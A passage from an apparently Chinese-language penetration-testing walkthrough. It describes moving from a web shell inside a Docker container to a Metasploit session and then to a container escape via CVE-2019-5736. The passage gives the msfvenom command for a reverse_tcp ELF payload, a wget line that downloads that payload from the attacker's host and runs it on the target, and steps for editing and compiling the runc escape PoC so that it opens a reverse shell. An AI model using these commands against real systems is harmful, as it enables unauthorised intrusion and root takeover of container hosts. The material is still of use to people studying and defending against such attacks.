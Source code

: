 ![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvouic72BAcaz731uT94XVXBPibxibwgfXh7mCzwx2ZdJic0PctvTrp0GuumoUtXRAwkRGicRAeIms08BicSuw/640?wx_fmt=png)image-20200726201743954

如上图，成功的到了目标的 shell，原理就是在目标机上传了一个 pwn.jsp。但此 shell 不太稳定且丑，所以我们还是老老实实的用第一种方法上传的后门吧。经过如下测试，我们发现我们获得的 shell 运行在一个 docker 容器内：

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvouic72BAcaz731uT94XVXBPibxciawI7ic6fPCc5byac3Pp8CBbZ53Q3Onfgkias6KLJWRFWNbvSQDOPuWg/640?wx_fmt=png)image-20200726203224850

那我们就需要 docker 逃逸来获取目标主机（docker 宿主机）的 shell。首先为了之后上传文件的方便，我们先反弹一个 meterpreter 过来。

生成 msf 马：

```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.0.108 LPORT=4444 -f elf > shell.elf
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvouic72BAcaz731uT94XVXBPibxq0Qwtu8p2VSL2xex8hoPGnA53WCLJwVWBKcYyWDqxzXGqPzI5V3cYA/640?wx_fmt=png)image-20200726204146745

然后使用 python 在当前目录下开启一个简单的 HTTP 服务（默认端口为 8000）：

```
python -m SimpleHTTPServer
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvouic72BAcaz731uT94XVXBPibxPU6zJIYnibObnJw5QyqvZvkRrVxc3ZMjgeviaaU6icO0trryxXEKqv32Q/640?wx_fmt=png)image-20200726204343471

然后在利用之前上传的 shell.jsp 执行 wget 命令，将攻击机上的 shell.elf 下载下来执行：

```
wget http://192.168.0.108:8000/shell.elfchmod 777 shell.elf./shell.elf
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvouic72BAcaz731uT94XVXBPibxHt4elHPuU7lzNAicicjRFzxNicM9DnUMJP7NEZJDRSNVFcmhTgA93qrNw/640?wx_fmt=png)image-20200726204926391![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvouic72BAcaz731uT94XVXBPibx3ojhw0lMXKc61EibkdibZ80n2SJKYibJfTx2q8yxp9fMBOIkTU84t0IdA/640?wx_fmt=png)image-20200726205032135

如上图，msf 成功获得了会话。

利用 CVE-2019-5736 逃逸
-------------------

在 Docker 18.09.2 之前的版本中使用的 runc 版本小于 1.0-rc6，因此允许攻击者重写宿主机上的 runc 二进制文件，攻击者可以在宿主机上以 root 身份执行命令。

平台或产品 受影响版本 Docker Version < 18.09.2 runC Version <= 1.0-rc6

恶意容器需满足以下两个条件之一：

• 由一个攻击者控制的恶意镜像创建 • 攻击者具有某已存在容器的写权限，且可通过 docker exec 进入。

首先下载并编译 main.go 脚本，生成攻击 payload：https://github.com/Frichetten/CVE-2019-5736-PoC

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvouic72BAcaz731uT94XVXBPibxPtOx6yQabTxBLajTFvIoXoP74UgLu0L3SxWlibolnYicu45Qt4OmCicZA/640?wx_fmt=png)image-20200726135502816

打开 main.go 脚本，将脚本中要在目标机上执行的命令修改为反弹 shell 的命令，IP 为攻击机 IP，端口为攻击机监听的端口：

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvouic72BAcaz731uT94XVXBPibxyVmjlC9AicDNaQFVAjnQY2CZX4v3odnHQVgsA4d0SD84OOwXe5v6H9g/640?wx_fmt=png)image-20200726143051634

编译生成 payload

```
CGO_ENABLED=0 GOOS=linux GOARCH=amd64 go build main.go
```
